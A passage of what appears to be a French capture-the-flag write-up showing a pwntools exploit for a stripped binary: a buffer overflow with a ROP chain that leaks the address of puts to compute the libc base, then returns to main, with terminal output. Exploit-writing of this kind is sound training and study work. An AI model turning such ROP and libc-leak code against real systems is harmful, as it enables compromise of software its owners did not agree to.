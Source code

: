 ```
$ python3 exploit.py
[*] exe @ 0x56447a3aa000
[*] Switching to interactive mode
Nope, you are no master.
\xa0\x15\x0f\x7f
[*] Got EOF while reading in interactive
$
```

On récupère donc l'adresse de `puts` dans la libc, et on est en mesure de
calculer l'adresse de la libc. En revanche, le binaire a fini son exécution.
Pour pallier à ça, on peut faire un ret2main, c'est-à-dire, placer l'adresse de
`main` sur la stack afin de ré-exécuter le programme.  
Le binaire est strippé, il ne contient pas les symboles, j'ai donc récupéré,
depuis IDA, le décalage de la fonction `main` par rapport au début du binaire
pour ajouter le symbole dans pwntools :
```py
def main():
    global r
    r = conn()
    attach_gdb()

    exe.symbols["main"] = 0x1178
    leak = int(r.recvline().strip(), 16)
    exe.address = leak - (exe.bss()-0x8)
    info(f"exe @ {hex(exe.address)}")

    pop_rdi_ret = p64(exe.address + 0x000000000000116f)

    rop = b"A"*0x20 # buffer
    rop += b"B"*8 # saved rbp
    rop += pop_rdi_ret + p64(exe.got["puts"])
    rop += p64(exe.plt["puts"])
    rop += p64(exe.symbols["main"])
    r.sendline(rop)
    r.recvline()

    addr_puts = u64(r.recvline().strip().ljust(8, b"\x00"))
    info(f"puts @ {hex(addr_puts)}")
    libc.address = addr_puts - libc.symbols["puts"]
    info(f"libc @ {hex(libc.address)}")

    r.interactive()
```

```
$ python3 exploit.py
[*] exe @ 0x55b0ff2a0000
[*] puts @ 0x7fc2423f75a0
[*] libc @ 0x7fc24237c000
[*] Switching to interactive mode
0x55b0ff2a4010
$ toto
Nope, you are no master.
[*] Got EOF while reading in interactive
```
